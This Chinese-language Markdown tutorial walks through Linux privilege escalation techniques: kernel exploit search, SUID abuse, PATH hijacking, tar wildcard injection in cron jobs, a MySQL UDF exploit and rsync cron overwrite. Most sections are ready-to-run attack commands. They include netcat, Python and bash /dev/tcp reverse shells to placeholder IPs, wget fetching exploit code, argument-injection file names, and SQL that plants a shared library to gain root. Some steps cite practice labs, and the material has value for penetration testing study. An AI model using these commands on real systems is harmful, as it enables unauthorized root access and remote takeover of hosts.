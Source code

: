 # 权限提升——Linux提权

## 提权辅助工具

1. 信息收集：
   - [LinEnum](https://github.com/rebootuser/LinEnum)
   - [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)

2. 漏洞探针：
   - [linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
   - [linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)

## Linux内核漏洞提权

1. 简介

   通常我们在拥有一个webshell的时候，一般都是WEB容器权限，如在IIS就是IIS用户组权限，在apache就是apache权限，一般都是权限较低，均可执行一些普通命令，如查看当前用户、网络信息、IP信息等。如果想进行内网渗透就必须将权限提权到最高，如系统权限、超级管理员权限。

2. 创建交互shell。linux提权需要交互shell，可以使用工具perl-reverse-shell.pl等建立sockets，本地使用nc监听端口

3. 探针项目：

   - [linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
   - [linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)

4. 查看发行版

   ``` shell
   cat /etc/issue
   cat /etc/*release
   ```

   查看内核版本

   ``` shell
   uname -a
   ```

5. 查找可用的exp。exploit-db、github上公开的漏洞exp等

6. 将exp脚本上传到服务器中，赋权执行

## linux suid提权

1. suid是一种特殊的文件属性，它允许用户执行的文件以该文件的拥有者的身份运行

   suid是一种对二进制程序进行设置的特殊权限，可以让二进制程序的执行者临时拥有属主的权限（仅对拥有执行权限的二进制程序有效。

2. 漏洞成因：chmod u+s给予了suid u-s删除了suid，使程序在运行中受到了suid root权限的执行过程导致
3. 提权过程：探针是否有SUID(手工或脚本)->特定SUID利用->利用

4. 手工命令探针安全漏洞，寻找二进制可执行文件

   ``` shell
   find / -user root -perm -4000 -print 2>/dev/null
   find / -perm -u=s -type f 2>/dev/null
   find / -user root -perm -4000 -exec ls -ldb {} \;
   ```

5. 脚本项目探针安全漏洞，参考：[suid-executables](https://pentestlab.blog/2017/09/25/suid-executables/)

   ``` shell
   LinEnum.sh linuxprivchecker.py
   touch shell
   find shell -exec whoami \;
   ```

6. 利用NC反弹

   ``` shell
   find shell -exec netcat -lvp PORT -e /bin/sh \;
   netcat xx.xx.xx.xx PORT
   ```

7. 利用Python反弹

   ``` shell
   find xiaodi -exec python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' \;
   
   nc -lvp PORT
   ```

## 环境变量覆盖提权

1. 条件：ROOT用户对某个第三方程序给予了SUID权限

2. 探针

   ```shell
   find / -user root -perm -4000 -print 2>/dev/null
   ```

3. root用户将可执行文件进行编译，保证文件的正常授权运行，给予ROOT权限执行

   ``` shell
   gcc demo.c -o shell
   chmod u+s shell
   //demo.c源码如下
   #include <unistd.h>
   void main()
   {
   setuid(0);
   setgid(0);
   system("ps");
   }
   ```

4. 普通用户通过对文件反编译或源代码查看，覆盖其执行环境变量，直接让其执行指定程序获取权限

   ``` shell
   cp /bin/bash /tmp/ps  //将/bin/bash复制到/tmp/ps
   export PATH=/tmp:$PATH  //将tmp添加到环境变量
   ./shell //shell是demo.c编译出来的
   id
   ```

## 计划任务提权

1. 通过获取计划任务执行文件信息进行提权，查看计划任务有无以下问题
   - 相对路径和绝对路径执行
   - 计划任务命令存在参数调用

2. 利用计划任务的备份功能tar命令的参数利用

   - ``` shell
     echo "" > "--checkpoint-action=exec=sh test.sh" 
     //创建名为--checkpoint-action=exec=sh test.sh的文件
     echo "" > --checkpoint=1
     //创建名为--checkpoint=1的文件
     echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > test.sh
     //将获取bash的提权命令cp /bin/bash /tmp/bash; chmod +s /tmp/bash写入test.sh文件
     ```

   - 当计划任务的备份功能被执行时，会通过参数传递调用test.sh文件，从而执行提权命令

   - 计划任务执行后，需要进入/tmp目录执行`bash -p`命令才能成功提权 

3. 利用不安全的权限分配操作导致的定时文件覆盖。由于权限分配操作不当，导致具有root权限的计划任务文件可被其他低权限用户修改，攻击者可通过修改计划任务文件，在内容中加入自定义命令并保存，当计划任务执行该文件时，即可导致提权

## 数据库mysql-udf.so提权

1. 靶场：[vulnhub-raven](https://www.vulnhub.com/entry/raven-2,269/)

2. 下载mysql udf poc进行编译

   ``` shell
   wget https://www.exploit-db.com/download/1518
   mv 1518 raptor_udf.c
   gcc -g -c raptor_udf.c
   gcc -g -shared -o raptor_udf.so raptor_udf.o -lc
   mv raptor_udf.so 1518.so
   ```

3. 传或下载1518到目标服务器

   ``` shell
   wget https://xx.xx.xx.xx/1518.so
   ```

4. 进入数据库进行UDF导出

   ``` shell
   use mysql;
   create table foo(line blob);
   insert into foo values(load_file('/tmp/1518.so'));
   select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';
   ```

5. 创建do_system函数调用

   ``` shell
   create function do_system returns integer soname '1518.so';
   select do_system('chmod u+s /usr/bin/find');
   ```

6. 配合使用find调用执行

   ``` shell
   touch xiaodi
   find xiaodi –exec "whoami" \;
   find xiaodi –exec "/bin/sh" \;
   id
   ```

## Rsync服务提权

1. Rsync是linux下一款数据备份工具，默认开启873端口。借助Linux默认计划任务调用/etc/cron.hourly，利用rsync连接覆盖

2. 靶场：[vulhub-rsync](https://vulhub.org/#/environments/rsync/common/)

3. 提权过程

   - 创建一个shell文件，内容

   ``` shell 
   bash bash -i >& /dev/tcp/ip/port 0>&1
   ```

   - 赋予执行权限

     ``` shell
     chomd +x shell
     ```

   - 上传文件覆盖定时任务目录下

     ``` shell
     rsync -av shell rsync://ip:873/src/etc/cron.hourly
     ```

   - 进行nc 监听相应的端口

     ``` shell
     nc -lvvp port
     ```